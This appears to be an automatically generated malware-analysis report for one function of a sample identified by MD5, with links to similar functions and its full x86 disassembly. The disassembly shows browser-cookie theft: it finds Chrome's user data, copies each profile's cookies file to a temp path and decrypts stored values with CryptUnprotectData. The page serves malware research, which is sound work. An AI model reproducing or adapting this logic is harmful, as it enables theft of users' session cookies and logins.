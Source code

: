 ```yaml
---
layout: post
title:  "fcn.00473bc1 @ 912f1d013a0d6151bc7a7cef6da1b2a0"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00473bc1
- **Origin (md5):** 912f1d013a0d6151bc7a7cef6da1b2a0
- **VirusTotal:** [virustotal.com/gui/file/912f1d013a0d6151bc7a7cef6da1b2a0][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>


# Similar Functions

1. [fcn.00473bc1][similar_1_ref] (sim.: 1.0)
2. [fcn.00473bc1][similar_2_ref] (sim.: 1.0)
3. [fcn.0040b9f0][similar_3_ref] (sim.: 0.892322380785086)
4. [fcn.00417a43][similar_4_ref] (sim.: 0.8919090025583186)
5. [fcn.10003110][similar_5_ref] (sim.: 0.884708010007365)


# Disassembled Code

{% highlight nasm %}
push 0xe7c
mov eax,0x49ab4c
call fcn.00481ea4
mov edi,ecx
lea eax,[ebp-0x424]
mov dword[ebp-0xda4],edi
push eax
xor esi,esi
push esi
push esi
push 0x801c
push esi
call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]
test eax,eax
js 0x473f85
mov ebx,dword[sym.imp.SHLWAPI.dll_PathAppendW]
lea eax,[ebp-0x424]
push str.GoogleChromeUser_Data
push eax
call ebx
lea eax,[ebp-0x424]
push eax
lea eax,[ebp-0x834]
push 0x104
push eax
call fcn.00481a97
add esp,0xc
lea eax,[ebp-0x834]
push 0x4ae8d0
push eax
call ebx
lea eax,[ebp-0x834]
xorps xmm0,xmm0
push eax
lea ecx,[ebp-0xd98]
movlpd qword[ebp-0xdb4],xmm0
call fcn.00473a35
mov dword[ebp-4],esi
lea ecx,[ebp-0xd98]
call fcn.00473a57
lea ecx,[ebp-0xd98]
test al,al
je 0x473f80
call fcn.0040547a
test byte[eax],0x10
je 0x473c54
lea ebx,[eax+0x2c]
push 0x4ae754
push ebx
call fcn.00481af3
pop ecx
pop ecx
test eax,eax
je 0x473c54
push 0x4ae758
push ebx
call fcn.00481af3
pop ecx
pop ecx
test eax,eax
je 0x473c54
lea eax,[ebp-0x424]
push eax
lea eax,[ebp-0x21c]
push 0x104
push eax
call fcn.00481a97
add esp,0xc
lea eax,[ebp-0x21c]
push ebx
mov ebx,dword[sym.imp.SHLWAPI.dll_PathAppendW]
push eax
call ebx
push str.cookies
lea eax,[ebp-0x21c]
push eax
call ebx
lea eax,[ebp-0xa3c]
push eax
push 0x104
call dword[sym.imp.KERNEL32.dll_GetTempPathW]
lea eax,[ebp-0x62c]
push eax
push esi
push 0x4ae770
lea eax,[ebp-0xa3c]
push eax
call dword[sym.imp.KERNEL32.dll_GetTempFileNameW]
push esi
lea eax,[ebp-0x62c]
push eax
lea eax,[ebp-0x21c]
push eax
call dword[sym.imp.KERNEL32.dll_CopyFileW]
test eax,eax
je 0x473f6e
lea ecx,[ebp-0xabc]
call fcn.00473faa
lea eax,[ebp-0x62c]
mov byte[ebp-4],2
push eax
lea ecx,[ebp-0xb40]
call fcn.00404fdb
mov ecx,eax
mov byte[ebp-4],3
call fcn.00404b49
push eax
lea ecx,[ebp-0xe88]
call fcn.0041d750
lea ecx,[ebp-0xb40]
mov byte[ebp-4],5
call fcn.0040501c
push ecx
lea eax,[ebp-0xe88]
push eax
lea ecx,[ebp-0xdc8]
call fcn.0041da8e
lea eax,[ebp-0xda0]
mov byte[ebp-4],6
push eax
lea ecx,[ebp-0xdc8]
call fcn.0041daa4
lea eax,[ebp-0xde0]
push eax
call fcn.0041dab7
mov edx,eax
lea ecx,[ebp-0xda0]
call fcn.0047517d
test al,al
je 0x473f07
push esi
lea eax,[ebp-0xa6c]
push eax
lea eax,[ebp-0xdd4]
push eax
lea ecx,[ebp-0xda0]
call fcn.00474e8e
mov ecx,eax
call fcn.00475197
push ecx
lea eax,[ebp-0xdcc]
mov byte[ebp-4],7
push eax
lea ecx,[ebp-0xda0]
call fcn.00474e8e
mov ecx,eax
call fcn.004751c4
mov ebx,eax
lea eax,[ebp-0xdd0]
push ecx
push eax
lea ecx,[ebp-0xda0]
call fcn.00474e8e
mov ecx,eax
call fcn.0041d96d
mov dword[ebp-0xdbc],eax
lea eax,[ebp-0xdac]
push eax
push 1
push esi
push esi
push esi
push esi
lea eax,[ebp-0xdbc]
mov dword[ebp-0xdb8],ebx
push eax
call dword[sym.imp.CRYPT32.dll_CryptUnprotectData]
test eax,eax
je 0x473ee8
push 2
lea eax,[ebp-0xa54]
push eax
lea eax,[ebp-0xdd8]
push eax
lea ecx,[ebp-0xda0]
call fcn.00474e8e
mov ecx,eax
call fcn.00475197
mov byte[ebp-4],8
lea ecx,[ebp-0xa84]
push dword[ebp-0xdac]
push dword[ebp-0xda8]
call fcn.0040a731
push ecx
lea ecx,[edi+6]
mov byte[ebp-4],9
push ecx
lea ecx,[ebp-0xdb4]
push ecx
mov ecx,eax
call fcn.0040b51d
push eax
lea ecx,[ebp-0xa6c]
call fcn.0040b51d
push eax
call fcn.0047fccc
pop ecx
push edx
push eax
lea ecx,[ebp-0xa54]
call fcn.0040b51d
push eax
lea ecx,[ebp-0xabc]
call fcn.00473ab8
lea ecx,[ebp-0xa84]
mov bl,al
call fcn.0040b62f
test bl,bl
je 0x473ecd
mov byte[edi+5],1
lea ecx,[ebp-0xa54]
mov byte[ebp-4],7
call fcn.0040b62f
push dword[ebp-0xda8]
call dword[sym.imp.KERNEL32.dll_LocalFree]
lea ecx,[ebp-0xa6c]
mov byte[ebp-4],6
call fcn.0040b62f
lea ecx,[ebp-0xda0]
call fcn.00474ea7
jmp 0x473d8e
push ecx
lea eax,[edi+6]
push eax
lea eax,[ebp-0xdb4]
push eax
push 0x4a3288
push esi
push esi
push 0x4a3288
lea ecx,[ebp-0xabc]
call fcn.00473ab8
test al,al
je 0x473f32
mov byte[edi+5],1
lea ecx,[ebp-0xdc8]
mov byte[ebp-4],5
call fcn.00473fd9
lea ecx,[ebp-0xe88]
mov byte[ebp-4],2
call fcn.0041d7ec
lea ecx,[ebp-0xabc]
call fcn.00473fc6
jmp 0x473f6b
mov dword[ebp-4],esi
lea eax,[ebp-0x62c]
push eax
call dword[sym.imp.KERNEL32.dll_DeleteFileW]
jmp 0x473c54
call fcn.00473a97
call fcn.00481df6
ret
{% endhighlight %}


[similar_1_ref]: /report/fcn.00473bc1@152885a790b99953ce23874f0947b7bd
[similar_2_ref]: /report/fcn.00473bc1@fb9b7d22bc1c143ac66b0575cbdd088d
[similar_3_ref]: /report/fcn.0040b9f0@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_4_ref]: /report/fcn.00417a43@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_5_ref]: /report/fcn.10003110@090dc3a8da6aa33c667b678303e4bdd6
[virustotal_ref]: https://www.virustotal.com/gui/file/912f1d013a0d6151bc7a7cef6da1b2a0